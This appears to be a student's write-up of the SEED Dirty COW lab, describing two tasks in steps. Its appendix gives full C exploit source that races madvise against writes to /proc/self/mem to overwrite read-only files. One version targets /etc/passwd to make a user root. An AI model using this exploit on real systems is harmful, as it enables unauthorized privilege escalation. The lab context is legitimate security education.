 # Dirty-COW-Attack-Lab
# Task 1: Modify a Dummy Read-Only File
Creating the dummy file “/zzz” using touch command. Changing the permission of file to “rw” for owner and “r” for users. 
- Using editor gedit to add random content to the /zzz file. 
- Viewing the file /zzz content using cat command.
- Checking the permission of file /zzz using the ls-l command. 
- Trying the add normal content to the file with the normal user. (without root permissions), but we wont be able to add because file only has the read permission for normal user.
- Creating the file cow_attack.c and adding the content downloaded from the seed lab webisite and pasting content in the file cow_attack.c 
- Compiling the file cow_attack.c using the gcc compiler. After that a.out file is created. 
- Executing the file. After waiting for couple of seconds we stop the execution loop. 
- Viewing the content of the file /zzz using the cat command. Its clearly visible the content of the file has been modified which means normal user having the read only access to the file, still able to write to the file using the dirty cow attack. 
Attack is successful. 

# Task 2: Modify the password file to gain the root privilege 
-Creating the new user named “Meet”
Also viewing the information in the /etc/passwd file using cat command.
- Creating the new attack file “attack_cow.c” in Desktop.
- Modifying the content of the file.
- Now, compiling the attack_cow.c file using gcc compiler. Executing and after waiting couple of seconds, we stop the loop. 
- Checking the content of the file, can see we are able to change the content of this file and able to make “meet” as the root. 
- Lastly, double checking the UID using the id command, which is also changed to the root. 
Dirty cow attack successful. 


#Lab Appendix 
1.	Code for cow_attack.c file 
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;
void *writeThread(void *arg);
void *madviseThread(void *arg);

int main(int argc, char *argv[])
{
  pthread_t pth1,pth2;
  struct stat st;
  int file_size;

  // Open the target file in the read-only mode.
  int f=open("/zzz", O_RDONLY);

  // Map the file to COW memory using MAP_PRIVATE.
  fstat(f, &st);
  file_size = st.st_size;
  map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

  // Find the position of the target area
  char *position = strstr(map, "222222");                        

  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); 
  pthread_create(&pth2, NULL, writeThread, position);             

  // Wait for the threads to finish.
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
}

void *writeThread(void *arg)
{
  char *content= "******";
  off_t offset = (off_t) arg;

  int f=open("/proc/self/mem", O_RDWR);
  while(1) {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}

void *madviseThread(void *arg)
{
  int file_size = (int) arg;
  while(1){
      madvise(map, file_size, MADV_DONTNEED);
  }
}

2.	Code for attack_cow.c file
3.	#include <sys/mman.h>
4.	#include <fcntl.h>
5.	#include <pthread.h>
6.	#include <sys/stat.h>
7.	#include <string.h>
8.	
9.	void *map;
10.	void *writeThread(void *arg);
11.	void *madviseThread(void *arg);
12.	
13.	int main(int argc, char *argv[])
14.	{
15.	  pthread_t pth1,pth2;
16.	  struct stat st;
17.	  int file_size;
18.	
19.	  // Open the target file in the read-only mode.
20.	  int f=open("/etc/passwd", O_RDONLY);
21.	
22.	  // Map the file to COW memory using MAP_PRIVATE.
23.	  fstat(f, &st);
24.	  file_size = st.st_size;
25.	  map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);
26.	
27.	  // Find the position of the target area
28.	  char *position = strstr(map, "meet:x:1001");                        
29.	
30.	  // We have to do the attack using two threads.
31.	  pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); 
32.	  pthread_create(&pth2, NULL, writeThread, position);             
33.	
34.	  // Wait for the threads to finish.
35.	  pthread_join(pth1, NULL);
36.	  pthread_join(pth2, NULL);
37.	  return 0;
38.	}
39.	
40.	void *writeThread(void *arg)
41.	{
42.	  char *content= "meet:x:0000";
43.	  off_t offset = (off_t) arg;
44.	
45.	  int f=open("/proc/self/mem", O_RDWR);
46.	  while(1) {
47.	    // Move the file pointer to the corresponding position.
48.	    lseek(f, offset, SEEK_SET);
49.	    // Write to the memory.
50.	    write(f, content, strlen(content));
51.	  }
52.	}
53.	
54.	void *madviseThread(void *arg)
55.	{
56.	  int file_size = (int) arg;
57.	  while(1){
58.	      madvise(map, file_size, MADV_DONTNEED);
59.	  }
60.	}
